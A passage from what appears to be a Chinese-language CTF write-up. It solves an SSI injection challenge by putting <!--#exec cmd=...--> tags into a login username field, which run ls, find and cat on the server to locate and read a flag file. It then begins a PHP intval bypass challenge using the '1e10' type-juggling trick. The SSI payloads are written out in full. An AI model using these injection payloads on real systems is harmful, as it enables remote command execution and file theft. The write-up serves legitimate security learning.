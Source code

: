 *   显示了我们随便输入的用户名，接下来又是知识盲区。`SSI注入漏洞`。

*   大多没描述是怎么来确认的，于是，我去百度了一下`.shtml`文件后缀名。发现了一点联系，可以看看[百度词条](https://baike.baidu.com/item/shtml/594921?fr=aladdin)的描述。
    ![在这里插入图片描述](img/2a2b68ba1e772c11269102fc93123ace.png)

*   再来看什么是[SSI注入漏洞](https://www.cnblogs.com/endust/p/11826210.html)

*   就是在用户名那里，因为这类似xss，是以标签的形式来起作用的，所以我们同样的直接输入就行。

*   同时它有直接支持命令执行的标签

    ```
    <!–#exec cmd="文件名称"–> 
    ```

*   所以，wp三连，先`ls`查看根目录，没找到flag文件，然后`ls ../`返回查看上一目录，发现 flag文件，访问得到 flag。

    ```
     <!--#exec cmd="ls"-->
     <!--#exec cmd="ls ../"-->
     <!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2"--> 
    ```

*   我的方法是，都可以命令执行了。当然直接`find`一下再直接`cat`就行

    ```
    <!--#exec cmd="find / -name flag*"-->
    <!--#exec cmd="cat /var/www/html/flag_990c66bf85a09c664f0b6741840499b2"--> 
    ```

*   步骤都是登录时，在用户名输入上述标签，得到生成的`.shtml`访问得到信息。因为每次生成的都不同，所以需要返回多次登录。

*   总结：第一次接触`SSI注入漏洞`。了解了相关概念及用法。

### 5、[WUSTCTF2020]朴实无华

*   首先打开什么都没，就考虑源码泄露，扫一下就能找到常见的`robots.txt`。得知一个`fAke_f1agggg.php` 访问是假的，但必然有用，抓包一下，在响应头里看到一个`fl4g.php`，访问得到源码。但中文乱码，但也能做。

*   大概浏览一下，得绕过前面的`if`来最后命令执行。

*   先看第一个，需满足。

    ```
    intval($num) < 2020 && intval($num + 1) > 2021 
    ```

*   先看一下[函数介绍](https://www.runoob.com/php/php-intval-function.html)。注意到下面两条，同样的参数`1e10`，值却大不相同。

    ```
    echo intval(1e10);                    // 1410065408
    echo intval('1e10');                  // 1 
    ```
